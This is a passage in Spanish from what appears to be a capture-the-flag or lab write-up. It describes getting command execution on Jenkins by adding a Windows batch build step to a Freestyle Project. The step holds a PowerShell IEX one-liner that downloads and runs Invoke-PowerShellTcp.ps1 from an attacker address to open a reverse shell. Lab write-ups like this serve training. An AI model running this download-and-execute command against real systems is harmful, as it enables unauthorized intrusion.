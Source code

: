 ![Reverse shell establecida](images/exploit_2.png)

## RCE 2

### Pasos previos | Preparación

Igualmente se pueden ejecutar comandos directamente en la máquina mediante la creación de un nuevo item `Create New Item > Freestyle Project > Build > Execute Windows batch command`, guardando en el campo de texto el comando a ejecutar `powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')`.

![Comando a ejecutar](images/exploit_3.png)

### Ejecución

Restando sólo guardar el proceso en la plataforma y ejecutarlo (`Save > Build Now`). Teniendo de esta forma otra manera de ejecutar comandos a través de Jenkins.
